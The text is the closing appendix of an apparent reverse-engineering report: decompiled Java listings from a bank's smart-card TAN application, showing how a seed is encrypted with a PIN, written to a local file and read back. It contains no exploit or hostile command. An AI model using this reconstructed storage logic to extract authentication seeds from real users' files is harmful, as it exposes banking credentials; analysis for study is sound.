/*  88 */       FileWriter fw = new FileWriter(getSmartCardFile(), false);
/*  89 */       BufferedWriter bw = new BufferedWriter(fw);
/*     */ 
/*  91 */       String s = Encryption.Encrypt(seed, getPassword());
/*     */ 
/*  93 */       bw.write(s);
/*  94 */       bw.close();
/*     */ 
/*  96 */       return true;
/*     */     } catch (IOException e) {
/*  98 */       e.printStackTrace();
/*  99 */     }return false;
/*     */   }
/*     */ 
/*     */   public boolean encryptAndSetSeed(String seed, String password)
/*     */   {
/* 104 */     String s = Encryption.Decrypt(seed, password);
/* 105 */     if (s != null) {
/* 106 */       return setSeed(s);
/*     */     }
/* 108 */     return false;
/*     */   }
/*     */ 
/*     */   public void readSmartCardFile() {
/*     */     try {
/* 113 */       GuiEnterPin p = new GuiEnterPin();
/* 114 */       String password = p.getPassword();
/*     */ 
/* 116 */       if (password != null) {
/* 117 */         setPassword(password);
/* 118 */         if (!encryptAndSetSeed(new String(
/* 119 */           Files.readAllBytes(this.smartCardFile
/* 119 */           .toPath()), "UTF-8"), password))
/*     */         {
/* 123 */           new GuiError("scs.gui.error.smartCardCorrupted");
/* 124 */           setSmartCardFile(null);
/*     */         }
/*     */       } else {
/* 127 */         new GuiError("scs.gui.error.smartCardCorrupted");
/* 128 */         setSmartCardFile(null);
/*     */       }
/*     */     }
/*     */     catch (Exception e) {
/* 132 */       setSmartCardFile(null);
/* 133 */       new GuiError("scs.gui.error.smartCardCorrupted");
/*     */ 
/* 135 */       e.printStackTrace();
/*     */     }
/*     */   }
/*     */ 
/*     */   public String getLastTan() {
/* 140 */     return this.lastTan;
/*     */   }
/*     */ 
/*     */   public void setLastTan(String lastTan) {
/* 144 */     this.lastTan = lastTan;
/*     */   }
/*     */ 
/*     */   public String getPassword() {
/* 148 */     return this.password;
/*     */   }
/*     */ 
/*     */   public void setPassword(String password) {
/* 152 */     this.password = password;
/*     */   }
/*     */ }

/* Location:           /Volumes/MacintoshHD/Users/mep/Downloads/smartcard_reader_application.jar
 * Qualified Name:     de.next9bank.scs.model.Storage
 * JD-Core Version:    0.6.2
 */
\end{lstlisting}

\section{Main class}

\subsection{Main}

\begin{lstlisting}
/*    */ package de.next9bank.scs;
/*    */ 
/*    */ import de.next9bank.scs.model.Storage;
/*    */ import java.io.IOException;
/*    */ import java.util.ResourceBundle;
/*    */ import javafx.application.Application;
/*    */ import javafx.collections.ObservableList;
/*    */ import javafx.fxml.FXMLLoader;
/*    */ import javafx.scene.Scene;
/*    */ import javafx.scene.image.Image;
/*    */ import javafx.scene.layout.Pane;
/*    */ import javafx.stage.Stage;
/*    */ 
/*    */ public class Main extends Application
/*    */ {
/* 22 */   Storage s = Storage.getStorage();
/*    */ 
/*    */   public void start(Stage primaryStage)
/*    */   {
/*    */     try
/*    */     {
/* 32 */       showMainStage(primaryStage);
/*    */     }
/*    */     catch (Exception e) {
/* 35 */       e.printStackTrace();
/*    */     }
/*    */   }
/*    */ 
/*    */   private void showMainStage(Stage primaryStage) throws IOException
/*    */   {
/* 41 */     Pane root = (Pane)FXMLLoader.load(getClass()
/* 42 */       .getResource("/layouts/Main.fxml"), 
/* 42 */       this.s.getStringBundle());
/* 43 */     Scene scene = new Scene(root, 600.0D, 400.0D);
/* 44 */     primaryStage.setTitle(this.s.getStringBundle().getString("scs.title"));
/* 45 */     Image ico = new Image("/img/logo.png");
/* 46 */     primaryStage.getIcons().add(ico);
/* 47 */     primaryStage.setScene(scene);
/* 48 */     primaryStage.setResizable(false);
/* 49 */     primaryStage.show();
/*    */ 
/* 51 */     this.s.setPrimaryStage(primaryStage);
/*    */   }
/*    */ 
/*    */   public static void main(String[] args)
/*    */   {
/* 61 */     launch(args);
/*    */   }
/*    */ }

/* Location:           /Volumes/MacintoshHD/Users/mep/Downloads/smartcard_reader_application.jar
 * Qualified Name:     de.next9bank.scs.Main
 * JD-Core Version:    0.6.2
 */
\end{lstlisting}

\end{document}